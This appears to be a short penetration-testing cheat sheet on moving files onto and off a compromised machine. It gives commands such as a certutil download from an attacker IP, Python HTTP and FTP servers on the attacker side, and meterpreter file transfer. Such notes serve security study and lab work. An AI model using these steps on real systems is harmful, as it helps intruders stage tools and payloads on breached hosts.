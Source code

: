 
There are several tools we can use to transfer files between the compromised machine and ourselves. 

1. `certutil`: If the target machine is windows based we can use the `certutil` command to download files from an endpoint. 
	eg: `certutil.exe -urlcache -f http://10.10.10.10/file.txt file.txt`
   
2. `HTTP`: We can host an HTTP server on our machine using python to host files to be downloaded
	eg: `python -m SimpleHTTPServer 80`

3. `FTP`: If we cannot use `certutil` for some reason such as being blocked by an antivirus, we can connect to a `FTP` on the attacker machine from the compromised machine.
	Attacker: `python -m pyftpdlib 21`
	Compromised: `ftp 10.10.10.10`

4. `Metasploit`: If we have a meterpreter session, we can use the `upload` and `download` commands available to transfer files.
   
5. `Browser`: We can also use the web browser to navigate to our server and download the file from there directly
   
6. `wget`: In Linux, we can use the available `wget` command to download a resource with a URL

